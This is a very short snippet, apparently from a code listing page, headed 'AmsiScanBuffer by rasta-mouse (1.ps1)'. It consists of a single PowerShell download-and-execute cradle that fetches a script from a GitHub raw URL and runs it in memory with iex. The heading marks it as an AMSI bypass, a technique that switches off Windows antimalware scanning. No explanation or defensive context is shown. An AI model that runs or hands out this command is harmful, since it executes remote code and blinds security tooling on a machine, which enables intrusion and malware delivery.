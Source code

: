 ### AmsiScanBuffer by rasta-mouse (1.ps1)

```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/amsi/master/1.ps1")
```

